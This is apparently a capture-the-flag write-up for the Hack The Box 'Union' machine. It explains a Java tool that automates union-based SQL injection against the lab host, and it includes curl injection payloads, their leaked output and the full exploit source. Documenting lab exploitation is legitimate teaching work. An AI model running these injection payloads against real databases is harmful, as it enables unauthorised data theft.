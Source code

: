 # Hack The Box. Machines. Union

Machine write-up: https://7rocky.netlify.app/en/htb/union

### `UnionSQLi.java`

This Java code is used to provide an interactive way to enter SQL queries in a form field vulnerable to Union-based SQL injection. The output will be only the result of the query if it is correct.

The SQL injection can be exploited using `curl`, but the output is the following:

```console
$ curl 10.10.11.128/index.php -d "player=' union select database() -- -"
Sorry, november you are not eligible due to already qualifying.
$ curl 10.10.11.128/index.php -d "player=' union select version() -- -"
Sorry, 8.0.27-0ubuntu0.20.04.1 you are not eligible due to already qualifying.
$ curl 10.10.11.128/index.php -d "player=' union select user() -- -"
Sorry, uhc@localhost you are not eligible due to already qualifying.
```

The aim of this Java program is to enter only the SQL query and output only the query result. An example of use of the program might be the following (`rlwrap` is a command to have a command history, to be able to move right and left, and clear the screen with `^L`):

```console
$ rlwrap java UnionSQLi.java
SQLi> select database()
november
SQLi> select version()
8.0.27-0ubuntu0.20.04.1
SQLi> select user()
uhc@localhost
SQLi> exit
```

To build the Java code, first I define some constant variables at the top:

```java
private static final String POST_URL = "http://10.10.11.128/index.php";
private static final String POST_DATA = "player=' union %s -- -";
private static final Pattern PATTERN = Pattern.compile("Sorry, ([\\s\\S]*?) you are not eligible due to already qualifying.");
```

The first one is the vulnerable URL, the second one is the payload with a `%s` to enter the SQL query using `String.format` and then the pattern to extract the result of the query using a Regular Expression.

The `main` function is the following:

```java
public static void main(String[] args) {
  try (Scanner in = new Scanner(System.in)) {
    while (true) {
      System.out.print("SQLi> ");
      String sqli = in.nextLine();

      if (sqli.equals("exit")) {
        break;
      } else if (sqli.isEmpty()) {
        continue;
      }

      String response = sendPOST(sqli);

      if (response.startsWith("Sorry")) {
        System.out.println(filterResult(response));
      } else {
        System.out.println("ERROR");
      }
    }
  } catch (IOException e) {
    System.out.println("ERROR");
  }
}
```

Basically, what it does is use an infinite loop to provide the `SQLi> ` prompt and read the SQL query from standart input (`stdin`). The SQL query is sent to the `sendPOST` method and the resulting response is filtered using `filterResult` if it is correct (otherwise it will print `ERROR`).

The `sendPOST` method is the following:

```java
  private static String sendPOST(String sqli) throws IOException {
    URL url = new URL(POST_URL);
    HttpURLConnection httpURLConnection = (HttpURLConnection) url.openConnection();
    httpURLConnection.setRequestMethod("POST");
    httpURLConnection.setDoOutput(true);

    OutputStream outputStream = httpURLConnection.getOutputStream();
    outputStream.write(String.format(POST_DATA, sqli).getBytes());
    outputStream.flush();
    outputStream.close();

    if (httpURLConnection.getResponseCode() == HttpURLConnection.HTTP_OK) {
      try (BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(httpURLConnection.getInputStream()))) {
        return bufferedReader.lines().map(line -> line + "\n").reduce(String::concat).orElse("");
      } catch (IOException e) {
        System.out.println("ERROR");
      }
    }

    return "";
  }
```

Although it is a little verbose, the function is very simple, it just takes the SQL query and puts it into the `POST_DATA` using `String.format` (here is the use of `%s`).

If the response is successful (200 OK), then we read the response and put it in a `String format` using some Java functional programming:

```java
bufferedReader.lines()
  .map(line -> line + "\n")
  .reduce(String::concat)
  .orElse("");
```

This sentence takes each line of the result, adds a new line character (`\n`) to each one and concatenates all of them.

The use of `.orElse("")` is because `.reduce(String::concat)` returns an `Optional<String>` type, that cannot be used as a simple `String`. This way, if some exception occurs, the returning string will be empty (`""`).

Finally, the `filterResult` method only extracts the desired data using the `PATTERN` defined above:

```java
private static String filterResult(String response) {
  Matcher matcher = PATTERN.matcher(response);
  matcher.find();
  return matcher.group(1);
}
```

The `PATTERN` makes use of `([\s\S]*?)` to match any "space" character (for instance: spaces, tabs, or new lines) with `\s` or any "non-space" character with `\S` multiple times (`*`).

The use of `?` is to match the minimum until finding the following content of the pattern (namely, ` you are not eligible due to already qualifying.`).

**Note:** The previous code snippets are shown only as an explanation, the complete source code is a bit different due to the `import` statements.
